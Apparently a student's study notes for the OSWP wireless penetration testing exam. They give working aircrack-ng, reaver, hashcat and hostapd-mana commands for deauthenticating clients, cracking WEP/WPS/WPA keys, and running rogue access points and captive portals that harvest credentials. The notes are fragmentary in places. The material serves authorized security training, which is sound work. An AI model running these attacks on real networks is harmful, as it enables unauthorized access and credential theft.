


OSWP
install ristretto for image
remember to use
airodump-ng --band abg wlan0mon
☑ WEP
☑ WPS
☑ WPA/WPA2-PSK
☑ WPA/WPA2- Enterprise
☑ captive portal
☑ Password Cracking
Basic commands
Basic Commands :-
• iw dev
• iw dev wlan1 scan | grep "SSID"
• ssh <username>@<target_ip> -p<port> ## connecting to the target system with SSH information provided by @offsec
• systemctl restart NetworkManager.service
Aircrack-ng
more the 20 tools
aircrack-ng -r <DB NAME> <.CAP FILENAME>
Airmon-ng
Aimon-ng
airmon-ng - see if detect chipset/drivers
Airmon-ng check - check if any proccess is problematic airmon-ng check kill - kill the proccess
Airmon-ng check kill
airmon-ng start wlan0 - start monitor mode airmon-ng start wlan0 3 - Start monitor mode on channel 3 airmon-ng stop mon0 - stop monitor mode
sudo airmon-ng start wlan0 2
where 2 is the channal number where we want to enable monitor mode of our adapter
• sudo iw dev wlan0mon info ---- to check with channel / sudo iwconfig wlan0mon
Airodump-ng
Airodump-ng
Airodump -ng used for
• WEP Initializtion Vector
• to capture raw 802.11 frames
• WPA/Wpa2 handshake
Usage :-
• to only capture on specific channel use only -c channel_number( -c 2 )
• --write
• --channel
• --bssid
Upper Portion -
• power(pwr) --- signal strength --- increase towads positive if signal gets strong. (negative no. will move towards positive)
• RXQ - recieved quality --- is measured by percentage -- of successfully recieved frames -- -over last 10 sec
• data -- -captured no of data packets -- If WEP is used - it indicated unique IV counts - also shows data broadcast packets
• #/s -- the number sign indicates the number of data packets per second over last 10 seconds
• CH -- channel no is taken from beacon frames. n some cases frames from one channel may be captured on another channel due to channel overlap.
• beacons -- sent by AP
• bssid -- mac address
• essid -- name of wifii
• MB - is the maximum speed supported by the AP.
• ENC - indicates the encryption algorithm in use. OPN, if shown, means there is no encryption.
• CIPHER - CCMP is detected security protocol
• AUTH - Detected Authentication protocol
when network is hidden the essid is represented as length:7 7 can be the no of characters. length 0 to indicated no of characters are hidden intentionnally
Lower portion -- station sending frames
Rate : indicates the last used rates between the client the AP. The first number indicates the rate of data from AP to the client, and the second indicates the rate of data from the client to the AP. Note that the Rate column will only be displayed when we are locked onto a single channel. It won’t be visible when channel hopping.
Lost : measures lost frames originating from the client station.
Frames : indicates the number of data frames sent by the client.
Notes : will indicate if the particular client has done a handshake, or if it sees PMKID
Percision scanning is scanning for specific AP.
Airodump-ng Output Files :
• -w option,
• formats - PCAP, CSV, Kismet legacy CSV, Kismet legacy NetXML, and Log CSV.
• to use a specific format we use --output-format cdv, pcap
Interactive keys :
• space - pause capture continues in bg
• tab - enbles/disables scrolling
• M - colored options
• A - different display options
• S - diffenent sorting options
• I - invert the selected sorting
• D - default sort - power level
To scan all bands :-
airodump-ng --band abg -c channel --bssid bssid interface
Aireplay-ng
Aireplay-ng
used for generating wireless traffics
Attack Attack Name
------ -----------
# 0 ## Deauthentication
# 1 ## Fake Authentication
# 2 ## Interactive Packet Replay
# 3 ## ARP Request Replay Attack
# 4 ## KoreK ChopChop Attack
# 5 ## Fragmentation Attack
# 6 ## Café-Latte Attack
# 7 ## Client-Oriented Fragmentation Attack
# 9 ## Injection Test
-0 : deauth
performing a deauthentication attack against AP
• aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>
-1 : Fake Authentication
performing a fake authentication attack against AP
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <Your_MAC> <interface>
-2 : Interactive Packet Replay Attack
• aireplay-ng -2 -b <AP_MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface> ## performing a interactive packet replay attack against AP
-3 ARP Request Replay Attack
• aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
-4 Korek ChopChop Attack
aireplay-ng -4 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a korek chopchop attack against AP
-5 Fragmentation Attack
aireplay-ng -5 -b <AP_MAC> -h <Your MAC> <interface> ## performing a fragmentation attack against AP
-9 : injection test
• if a perticular AP can be injected or not on a specific channel
Types of Injection test
• basic injection test
⇒ Injection Test: aireplay-ng -9 mon0 - Single card
⇒ aireplay-ng -9 -i (revieving card wlan1) (mon0)
• injection test from specific essid
-e essid
-a bssid
-D : disable AP detection
• card to card --- garenty injection
• for error :-
aircrack-ng
aircrack-ng
aircrack-ng -S --- for speed test
deaunthication may not work on 802.11w( Protected Management Frames) ...unencrypted deauth frames are ignored.
To confirm if the captured key is correct we need to check with airdecap-ng
airdecap-ng -b bssid -e essid -p password_cracked wpa_cap_file.cap
wpa -- 8 to 63 character
Airdecap-ng
Airdecap-ng
used after key for WEP, WPA PSK , WPA2 PSk is retrived.
Removing Wireless Headers :-
captured file contains a lot of frames that we are not intrested in . One use of Airdecap-ng is to remove the wireless headers from unencrypted capture files.
airdecap-ng -b bssid file.cap
Airegraph-ng
Airegraph-ng
Use - To create a graph of network
Two types of graph :-
1. Client to AP graph(CAPR)
2. Clients Probe Graph(CPG)
colors used in graph :-
green - wpa
red - open
yellow - wep
black - unknown
airegraph-ng -i file.csv -o cap.png -g CAPR/CPG
-i : input file.csv captured by airodump-ng
-o : output file
-g : graph type
install ristretto for image viewing
Aircrack-ng suite
Aircrack-ng does not work when theauthentication is Enterprise and shown as MGT, as itrequires a different set of tools.
Some wireless drivers ignore directeddeauthentication and only respond to broadcast deauthentication. We can run the same aireplay-ng deauthentication command without the -c parameter to send broadcast deauthentication.
some times 802.11w Protected management frames are in use, where unencrypted deauthentication framesare ignored. Then the only course of action is to waitfor a client to connect.
aircrack-ng -w wordlist.txt -e essid -b bssid file.cap
It’s possible that we captured a client’sunsuccessful attempt to connect to the network. This is where we make use of theadditional traffic we captured
between the client and the AP.
To confirm the key is correct, let’sdecrypt our traffic with airdecap-ng.
airdecap-ng -b bssid -e essid -p password file.cap
Password Cracking
WPA supports two types of authentication methods
1. PSK - pre shared key
2. Enterprise
WPA, WPA2, WPA3 all rely on hashes for keys
this are one way hash so decrypting or cracking the hash takes efforts
we will do this by followings:
1. Get the handshake
2. make a guess at passphrase and send the guess to the hash function
3. compare the output from hashfunction to the handshake
4. if match we get the password
Length of Passphrase can be from 8 to 63 characters
There is no difference between cracking WPA and WPA2 hashes,
WPA3 shares similarities with WPA, but it uses the much stronger SimultaneousAuthentication of Equals, and it is not yet vulnerable to offlineattacks.
same goes for Opportunistic WirelessEncryption (OWE).
custom wordlist
try and look for default password using oui( Organizational Unique Identifier) ( first 6 char of MAC address http://www.wireshark.org/tools/oui-lookup.html )
We will use 3 tools for generating custom wordlist
• John The Ripper
• Crunch
• RSMangler
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
John The Ripper :
• JtR’s default mangling rules only append one digit to the end of each word. Let’s add two additional rulesthat append two and three digits to the end of eachword in the wordlist.
• The JtR mangling rules are located in a john configuration file - /etc/john/john.conf
• add following line near line no 961 :
#Add two numbers to end of each password
$[0-9]$[0-9]
$[0-9]$[0-9]$[0-9]
• sudo john --wordlist=wordlist.txt --rules --stdout | grep -i “password you want add numbers ”
• full command to directly input wordlist with Johntheripper in aircrack-ng :
sudo john --wordlist=wordlist.txt --rules --stdout | aircrack -ng -e essid -w - file.cap
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
RSMangler :
• RSMangler is a Ruby scriptthat takes words as input and modifiesthem in multiple ways,such as changing case, switching order,using “leetspeak”, adding numbers,and so on in order to create anon-repeating wordlist.
• All of RSMangler's word manipulation options are on by default, but we can add parameters to the command line to turn individual options off.
• first create file with words or passwords.
• process that file to rsmangles --file wordlist.txt
• to save --output wordlist
• -min 10 max 12 options can also be used.
• full command to directly input wordlist with Johntheripper in aircrack-ng :
rsmangler -file wordlist.txt --min 12--max 13 | aircrack-ng -e essid file.cap -w -
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Cracking with Pyrit
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
• pyrit -r <interface> -o <capture_file> stripLive ## using pyrit to sniff in monitor mode interface by saving the capture process to a file
• aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the handshake packet
• pyrit -r <capture_file> -i <wordlist> -b <AP_MAC> attack_passthrough ## cracking WPA password with pyrit in dictionary mode
or
• pyrit -i <wordlist> import_passwords ## import word list to crack WPA password in pyrit with database mode
• pyrit -e <ESSID> create_essid ## adding the ESSID of the access point to the pyrit database
• pyrit batch ## creating PMKs for ESSID
• pyrit -r <capture_file> -b <AP_MAC> attack_db ## cracking WPA password in database mode with pyrit
Crunch
Crunch
• Given a pattern and a character set or words, Crunch is able to generate all possible combinations. The crunch command only requires us to specify the first two parameters, namely the minimum length and maximum length of the password. WPA requires passphrases between eight and 63 characters.
• crunch min max WordsToUse
• -t can be used to define characterset like
- @ lowercase
- , uppercase
- %numbers
- ^ symbols
• example - crunch 11 11 -t Password%%%
-p to add words or specific characters
example - crunch 5 5 -t ddd%% -p dog cat bird
output :
e.g
crunch 7 7 -t p@ss,%^ -l a@aaaaa
crunch will now treat the @ symbol as a literal character and not replace the character with a uppercase letter.
this will generate
p@ssA0!
p@ssA0@
p@ssA0#
p@ssA0$
<skipped>
p@ssZ9
hashcat
Hashcat uses GPU
only pocl openc cl is not recommended
hascat benchmark - speed estimate to crack password
• hashcat -b
• for wifi cracking we mostly use wpa/wpa2-eapol-pbkdf2 hashes
• hashcat -b -m 2500
Hashcat utilities
important package -- use/lib/hashcat-utils
• cap2hccapx.bin ← cap export to hccpacx for hash cat cracking - We’ll notice one utility that is specifically relevant for our purposes. It exports WPA handshakes from PCAP files to HCCAPx, a format used by hashcat for WPA/WPA2 handshakes
converting cap to hccapx
/lib/hashcat-utils/cap2hccapx.bin wpa.cap output.hccapx
using hashcat to crack password :
hashcat -m 2500 output.hccapx wordlist.txt
Airolib-ng
Airolib-ng is a tool designed to store and manage ESSID and password lists,compute their Pairwise Master Keys (PMK), and use them in order to crack WPA and WPA2 PSK passphrases.
• users sqlite3 database
• speed for cracking increases
Summary commands :
• airolib-ng anyname.sqlite --import essid essid.txt
• airolib-ng anyname.sqlite --stats
• airolib-ng anyname.sqlite --import passwd wordlist.txt
• airolib-ng anyname.sqlite --batch
• aircrack-ng -r anyname.sqlite file.cap
Steps to create database in airolib-ng and use for cracking :
1. essid.txt
2. import the ESSIDtext file into the airolib-ng database
airolib-ng anyname.sqlite --import essid essid.txt
3. Passing --stats to airolib-ng displays information about our database,including the ESSIDs and numberof passwords that are stored.
airolib-ng anyname.sqlite --stats
4. Importing password - only valid credentions will be imported that is between 8 to 63 characters
airolib-ng anyname.sqlite --import passwd wordlist.txt
5.With the network ESSID and password list imported,we can have airolib-ng batchprocess all of the corresponding PMKs
airolib-ng anyname.sqlite --batch
6. Once generated we can use these PMKs against APs that have the same ESSID. Once the batch operation is complete, the output shows that all possible combinations have been computed for our combination of ESSID and passwords.
7. Now, instead of usinga wordlist with aircrack-ng, we can pass the databasename using -r instead.
aircrack-ng -r anyname.sqlite file.cap
cowpatty
It is a versatile tool that recovers WPA pre-shared keys using both dictionary and rainbow table attacks.
Rainbow table mode :-
• The main purpose behind using coWPAttyis to use the pre-computed hashes, similar to airolib-ng, to crack a WPA passphrase. Using these rainbow tables, which are pre-computed hashes, significantly reduces the time required to crack WPA passphrases as all of the computation is done ahead of time.
• An important point to keep in mind when using pre-computed hashes is that they need to be generated for each unique ESSID.
• The ESSID is combined with the WPA pre-shared key to create the hash.
• coWPAtty includes a tool, genpmk, thatgenerates the required rainbow tables.
genpmk -f wordlist -d output file -s essid
• cowpatty -r file.cap -d outout_file_saved_genpmk -s essid
------------------------------------------------------------------------------------------------------------------------------------------------------------
# coWPAtty needs a full valid handshake, check if it can use it
cowpatty -r <CAPTURE_NAME> -c
cowpatty -r file.cap -f wordlist -2 -s <bssid>
where -2 is for no scripts mode
ROUGUE Access Point
We’ll use this attack to grab WPA pre-shared keys.
• When a client connects to a wireless network, the device will save the network into a list called the Preferred Network List (PNL). A PNL allows devices to reconnect to a familiar network when it is detected again.
• Even though we might not have the same pre-shared key (PSK) as the AP the client was expecting, we will be able to capture the first two messages of the 4-way handshake. This should give us just the right amount of information to crack the PSK.
• Many devices save the encryption details inthe PNL when the network is saved. This means for a successful attack, our rogue AP will have to match the encryption details of the target.
Using airodump-ng suit :
airodump-ng -w discovery --output -format pcap wlan0mon
In wireshark using .cap or .pcap file filtering out becons packet of specific ssid :-
• wlan.fc.type_subtype == 0x08 && wlan.ssid == “ essid here”
in above filter, Management frames use type “0”,and beacon frames use a subtype of “8”
• Vendor specific tagg ---wpa 1
• RSN tag -- supports wpa2 --- tkip or ccnp
• authenticate with a PSK - based on the Auth KeyManagement configuration.
Creating Rogue AP :-
using hostapd-mana :-
• a daemon which creates AP using Wi- Fi network adapters.
• In order to run hostapd-mana, we will need to build a configuration file which defines the AP configuration and sets a location for the captured handshakes.
• Configuration file - /etc/hostapd-mana/hostapd-mana.conf we can also create our own hostapd-mana configuration file. (any-name.conf)
• Contents/Parameters -
1> interface name=
• wlan0
• wlan1
2> ssid= essid
3> channel= 1,2,3,4,5, etc.
4> driver=nl80211
• By default, hostapd-manawill run in 802.11b. you can change e.g by setting the ieee80211n parameter to “1”.
5> hw_mode=g(2.4Ghz) or a(5Ghz) (hw_mode=g -> 2.4 GHz y 54 Mb)
6> wpa=
• wpa=1 -> activate only WPA
• wpa=2 -> activate only WPA2
• wpa=3 -> to enable both WPA and WPA2.
7> wpa_key_mgmt=WPA-PSK
• authenticationto PSK and set the key as well e.g set wpa_key_mgmt to “WPA-PSK”
8> wpa_passphrase=ANYPASSWORD
• passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong
9> wpa_pairwise=TKIP CCMP -> TKIP or CCMP encryption with WAP1
rsn_pairwise=TKIP CCMP -> TKIP or CCMP encryption with WPA2
• Encryption type (if the target is exclusiveliy WPA1 use just one of the following):
• wpa and rsn pairwise settings to “TKIP CCMP” for WPA1 and WPA2 respectively in order to match the encryptionsettings of the target AP.
• The cipher suite for multicast trafficis automatically set by hostapd-mana,so we don’t need to modifythe configuration for it
10> mana_wpaout=/home/file.hccapx
• Finally, we need to configure the“mana” portion of hostapd-mana. mana_wpaout which will specify where tosave the captured handshakes. Each captured handshakewill be appended to this file.
Example file -
With the configuration file complete, we can start hostapd-mana
CAPTURING HANDSHAKES -
To start hostapd-mana:
sudo hostapd-mana our_save_conf_file.conf
Examples
• hostap with no encryption:
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
• hostap with wep:
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
• hostap with WPA-PSK:
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
• hostap with WPA2-PSK:
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
alternative:
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
WEP cracking
For 64bites / 128 bites : 20,000/1,000,00 IVS foir cracking
• With clients (easy to get IVS)
Steps to crack :-
1. airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w wep wlan0
need #data about 20,000 for 64 bit and 10k for 128bit
2. aireplay-ng -1 0 -a bssid wlan0 --------- fake authentication
3. aireplay-ng -5 -b bssid -h <your mac> wlan1mon ------------- Fragmentation Attack
It will save the keystream as a .xor file and display the file name in your shell.
4. packetforge-ng -0 -a [BSSID] -h [Your MAC] -w [ARP filename] -y [filename.xor] -k 255.255.255.255 -l 255.255.255.255
Using the .xor file we saved - we can create an ARP-Reply package and inject it to the network to stimulate the flow of IVs.
5. aireplay-ng -2 -r [ARP filename] [Interface] --------------------------------- Interactive Packet Replay
Upon creating our ARP request packet we can inject it into the network using the aireplay-ng (-2) command
#data will start increasing
6. aircrack-ng -e [ESSID] [Filename]
-----------------------------------------------------------------------------------------------------------------------------------------------------------------
Extra : -
aireplay-ng -5 -b <AP_MAC> -h <Your MAC> <interface> ## performing a fragmentation attack against AP
packetforge-ng -0 -a <AP_MAC> -h <Your_MAC> -l <Source_IP> -k <Dest_IP> -y <XOR_file> -w <output_file> ## creating an ARP request packet using packetforge-ng
tcpdump -n -vvv -e -s0 -r <output_file> ## check the contents of the created package
aireplay-ng -2 -r <output_file> <interface> ## injecting the generated packet into the network (If the correct pack is injected, the IV amount will increase rapidly.)
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
Bypassing WEP Shared Key Authentication
airmon-ng start <interface> <AP_Channel> ## setting the wireless card (wlan0) to monitor mode
airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface> ## listening to the target AP on the specified channel
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP to capture the PRGA XOR keystream
aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP_MAC> -h <Your_MAC> <interface> ## performing a fake shared key authentication using XOR key flow
aireplay-ng -3 -b <AP_MAC> -h <Your_MAC> <interface> ## performing a ARP Request Replay attack against AP
aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface> ## performing a deauthentication attack against AP
aircrack-ng <capture_file> ## cracking WEP key (In order to achieve a successful result, you need to catch a sufficient number of IVs during the attack.)
WPS cracking
wash -i mon0
reaver -i wlan0 -b bssid -d delayInSecondes30 -S -N -vv ---- trying all pin
reaver -i wlan0 -b bssid -p sepcific_pin -vv
WPA/WPA2
Step 1: ifconfig(interface configuration) : To view or change the configuration of the network interfaces on your system.
ifconfig
Step 2: Stop the current processes which are using the WiFi interface.
airmon-ng check kill
Step 3: To start the wlan0 in monitor mode.
airmon-ng start wlan0
Step 4: To view all the Wifi networks around you.
airodump-ng wlan0mon
Step 5: To view the clients connected to the target network.
airodump-ng -c 1 --bssid 80:35:C1:13:C1:2C -w /root/anyname wlan0
(we have to capture handshake here)
-c : channel of wifi
--bssid : mac of wifi
-w : writing data to file (.cap file)
Step 6: Open a new terminal window to disconnect the clients connected to the target network. (to capture handshake easily)
aireplay-ng -0 10 -a 80:35:C1:13:C1:2C wlan0mon
(WPA HANDSHAKE WILL BE FOUND)
where,
aireplay-ng : To inject frames
-0 : For deauthentication
10 : No. of deauthentication packets to be sent
-a : For the bssid of the target network
wlan0mon : Name of the interface.
Step 7. To decrypt the password. Open the Files Manager.
Here,
hacking-01.cap is the file you need.
Step 8 :
aircrack-ng -a2 -b 80:35:C1:13:C1:2C -w /user/share/wordlists/passwords.txt /root/hacking-01.cap
where,
aircrack-ng : 802.11 WEP and WPA-PSK keys cracking program
-a : -a2 for WPA2 & -a for WPA network
-b : The BSSID of the target network
-w : Location of the wordlist file
/root/hacking-01.cap : Location of the cap file
WPA-E
WPA Enterprise uses ExtensibleAuthentication Protocol or EAP
.
EAP is a framework for authentication,which allows a number of differentauthentication schemes or methods.Authentication is done using a RemoteAuthentication Dial-In User Service or RADIUS server. The client authenticates using a number of EAP frames, depending on the agreed upon authentication scheme, which are relayed by the AP to the RADIUS server. If authentication is successful, the result is then used as Pairwise Master Key for the 4-way handshake, as opposed to PSK, where the passphrase is derived to generate the PMK. Authentication to a RADIUS server with most common EAP methods, requires the use of certificates on the server side at the very least. Some older, now deprecated EAP methods don’t require certificates. Although a number of authentication schemes are possible, only some of them are commonly used, due to their security, and integration with existing operating systems. It is common to use a username and password to authenticate which could be tied to domain credentials. We’ll go over a few EAPs commonly used on Wi-Fi networks. EAP Transport Layer Security or EAP-TLS is one of the most secure authentication methods, as it uses certificates on the server side and client side, instead of a login and password, so the client and server mutually authenticate each other. EAP Tunneled Transport Layer Security, as the name suggests, also uses TLS. As opposed to EAP-TLS, it does not necessarily need client certificates. It creates a tunnel and then exchanges the credentials using one of the few possible different inner methods (also called phase 2), such as Challenge-Handshake Authentication Protocol, (CHAP) Authentication Protocol, Microsoft CHAP, or MS-CHAPv2. Similarly to EAP-TTLS, Protected Extensible Authentication Protocol (PEAP), also creates a TLS tunnel before credentials are exchanged. Although different methods can be used within PEAP, MS-CHAPv2 is a commonly used inner method. PEAP and EAP-TLS mostly differ on how the data is exchanged inside the TLS tunnel.
MGT -- means WPA -E
1. Capture handshake using deauthintication
2. open cap file in wireshark
• user filter → wlan.bssid==<bssid> && tls.handshake.certificate && eap
• route to extensible authentication protocol > Transport layer security>tlsv1 handshake protocol:certificate > handshake protocol :certificate>certificates
• in certificates there are more certificates export them to using right click export packet bytes you can use name cert.der
• use openssl x509 -inform der -in cert.der -text command to read cert.der
• you can convert der to pem using : openssl x509 -inform der -in cert.der -outform pem -out output.crt
delete certs and dh file --- make destroycerts
3. need to create certificates which are similar to the ones we found we can use the ones available in radius server directory
/etc/freeradius/3.0/certs/ca.cnf , here we will edit [certificate_authority] fields to match our target CA certificate to appear less suspicious to clients
in case they inspect the certificate.
• e.g
4. This information needs to be updated in the server file. → /etc/freeradius/3.0/certs/server.cnf
same as we did with CA certificate edit the [server] fields to match our target server certificate.
e.g
We’ll skip the client certificate because we don’t need it.
5. Now , we’ll build the certificates.
• first need to regenerate Diffie-Hellman(dh) parameters, with a 2048 bit key
• to do this we need to delete old dh file → /etc/freeradius/3.0/certs - user rm dh
• then to regenerate we will use make command
6. we will create our own rogue AP with hostapd-mana
• create the hostapd-mana configuration file,
#basics
ssid=playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
#setting up hostapd as EAP server
ieee8021x=1
eap_server=1
#EAP user file we created after this file in next step
eap_user_file=/etc/hostapd-mana/mana.eap_user
#Certificate paths we created
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradiu/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
#password is whatever for private key
private_key_password=whatever
dh_file=/etc/freeradiu/3.0/certs/dh or dh_file=/etc/freeradiu/3.0/certs/dhpem ---- whaterever the name is
#open authentication
auth_algs=1
wpa=3
#wpa enterprise
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP
#enable Mana WPE
mana_wpe=1
#store credentials in that file
mana_credout=/tmp/hostapd.credout
#Send EAP success, so client thinks its connected
mana_eapsuccess=1
#EAP TLS MitM
mana_eaptls=1
7. We will now create a hostapd-mana user file.
• /etc/hostapd-mana/mana.eap_user
* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" MD5,GTC,MSCHAPV2,TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2 "1234TEST" [2]
8. start hostapd-mana using hostapd-mana /etc/hostapd-mana/mana.conf
9. When a victim attempts to authenticate to our AP, the login attempt is captured.
10. we will use asleap to crack password hash asleap -C -R -W wordlist(e.g /usr/share/john/password.lst)
WPA-E info
Each user uses his own user and password (if client certificates are not used).
two files are need
1. mana.conf :-
2. hostapd.eap_users i.e eap_users_file
• means for everbody and they can use any authenication
• “t” means for tunneled mode
total certs present for WPA-E
what is sycophant?

more info
WPA2 Enterprise:
Look for WPA MGT network in airodump
Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
• view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
• save certificates to file, right click cert string and click Export Packet Bytes
View SSL cert info:
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
Use freeradius to provide fake cert to clients
◇ alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:
[certificate_authority]
countryName = US
stateOrProvinceName = {2 letter state}
localityName = {City}
organizationName = {Company Name}
emailAddress = {Email}
commonName = "Such and Such Certificate Authority"
• alter server block in /etc/freeradius/3.0/certs/server.cnf:
[server]
countryName = US
stateOrProvinceName = {2 letter state}
localityName = {City}
organizationName = {Company Name}
emailAddress = {Email}
commonName = "Such and Such Certificate Authority"
• change dir to /etc/freeradius/3.0/certs/ and run:
rm dh && make
• YOU WILL GET AN ERROR, but it doesn't matter
Setup hostapd-mana for the rogue AP using the (updated!)
mana.conf
file, move to
/etc/hostapd-mana/mana.conf
Use mana.eap_user file, move to
/etc/hostapd-mana/mana.eap_user
Start hostapd-mana:
hostapd-mana /etc/hostapd-mana/mana.conf
Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:
<asleap command> -W /usr/share/john/password.lst
Create
wpa_supplicant.conf
file:
network={
ssid="NetworkName"
scan_ssid=1
key_mgmt=WPA-EAP
identity="Domain\username"
password="password"
eap=PEAP
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}
Connect to network:
wpa_supplicant -c <config file>
Don't forget the grab and submit the proof.
more n more
https://youtu.be/Ra0dGPYScLQ
how to break wpa e
tail -f /usr/local/var/log/radius/freeradius-server-wpe.log -n 0
to crack we give challenge response to asleap
security
Bettercap
bettercap is a popular tool for Wi-Fi assessments. It shares some capabilities with airodump-ng, aireplay-ng, and airbase-ng or hostapd-mana. Unlike many of the other tools, bettercap provides some interface flexibility. We can interface with it using an interactive terminal, scripting language, or web UI.
The main functionality of bettercap is separated into six main modules.
our of the modules have to do with the technologies supported by bettercap: Bluetooth LE,1 HID on 2.4Ghz,2 Ethernet,3 and Wi-Fi.4
The Core module helps us run commands specific to bettercap. Utils works with utilities like GPS or MAC address changer. Some modules, for example Ethernet, also have submodules (spoofers, proxies, etc.).
Each module contains commands and parameters.
The commands are the various actions that bettercap can take within a specific module (for example, deauthentication within the Wi-Fi module).
The parameters control the configuration of the module (for example, how often the Wi-Fi module hops between channels).
We can set parameters by using the
set
command, passing the parameter as the first argument and the value of the parameter as the second argument. For example,
set wifi.hop.period 200
will set the channel-hopping period to 200 milliseconds.
Essentials
To start bettercap, we will use the bettercap command and pass in the wireless interface using the -iface argument followed by the name of the interface, wlan0 in this case.
sudo bettercap -iface wlan0
Wi-Fi Module
The bettercap Wi-Fi module allows us to do things like scan the Wi-Fi spectrum, deauthenticate clients, capture WPA/WPA2 handshakes, and create APs by spoofing beacons.
There are a several commands in the Wi-Fi module that will be useful to us.
• recon:1 Scan the 802.11 spectrum for APs and capture WPA/WPA2 handshakes.
• deauth:2 Deauthenticate clients from an AP.
• show:3 Display the discovered wireless stations.
• ap:4 Create a rogue AP.
Discovering APs
The wifi.recon command will start the Wi-Fi module and allow us to discover nearby APs.
wifi.recon on
Wifi.show command, which will list the discovered wireless stations.
Using the
ticker
2 module in bettercap, we can periodically execute multiple commands. Instead of manually running
wifi.show
when we want to inspect the table, we can use a ticker to clean the output and show the table.
The default refresh interval is one second.
If we need to, we can change this by setting the
ticker.period parameter to the amount of seconds bettercap should wait before rerunning the ticker commands.
E.g
we have a list of WPA2 APs, let's take a look at the clients connected to an AP. In order to list the clients, we will use a BSSID with the
wifi.recon
command.
Deauthenticating a Client
I
n bettercap, we'll deauthenticate clients by using the
wifi.deauth
command. The command accepts a MAC address as a parameter where the value could be.
wifi.deauth c6:2d:56:2a:53:f8
to deauthenicate all
Wi-Fi handshakes
Addiional
Caplets
Caplets are files that allow us to quickly run a series of commands without having to manually type each one into the interactive terminal. Caplet files have a .cap file extension.
We can write our own caplets, but let's examine one of the examples provided by bettercap first. The example caplets are in the /usr/share/bettercap/caplets/ directory.
we can use the -caplet argument when starting bettercap.
sudo bettercap -iface wlan0 -caplet deauth_corp.cap
Web Interface
bettercap's interactive terminal has some disadvantages. For example, the table that was displayed when we ran wifi.show would become unusable in an area with too many APs. Thankfully, bettercap's web interface allows us to display the information in a more concise way. In addition, the web interface allows us to control a bettercap instance remotely.
The bettercap web interface runs on port 443. However, the interface on port 443 makes calls to the API server on port 8083.
If we wanted to only run bettercap locally, we would use the http-ui caplet instead of the https-ui caplet. The http-ui caplet starts the HTTP listener on the loopback interface instead of on all interfaces.
sudo bettercap -iface wlan0 -caplet http-ui
Attacking Captive Portals
hostapd -d conffile.conf
OSWP
network is WPA-PSK or WPA2-PSK
Opportunistic Wireless Encryption(OWE) also sometimes called Enhanced Open can encrypt the connection without requiring a passphrase.This would ensure that credentials sent tous are safe from interception
1. Information Gathering about AP
2. setting up captive portal
2 >
We’ll also use PHP scripts tosave user entered credentials and then redirect the user toa success or failure page
make a directory under /var/www/html/portal
We will also need to copy the assets
and old-site directoriesto the portal sub-directory
after creating a captive portal next is networking
• We will first assign an IP addressto our wlan0 interface
• the first thing the userwill do is request a DHCP lease We will provide it using dnsmasq, a small DNS and DHCPserver we can install with apt
mousepad file-dnsmasq.conf
DHCP -
DNS -
start dnsmasq withthe configuration file option
to stop dsnmasq kill process of dnsmasq may refer /var/run/dasmasq.pid for reference
install nftables
sudo nft add table ip nat

In Apache’s site configuration, we need to add mod_rewriteand mod_alias rules so that the captiveportal is set properly.

Let’s enable the rewrite andalias modules using a2enmod.
for chrome
setting up and running rogue ap
use hostapd
we will not use encryption
run hostapd
checking syslog apache log
after entering successul credentials
my notes
Networking setup
1. assign an IP addressto our wlan0 interface
sudo ip addr add 192.168.1.1/24 dev wlan1
sudo ip link set wlan1 up
OR
ifconfig wlan1 down
ifconfig wlan1 192.168.1.1/24
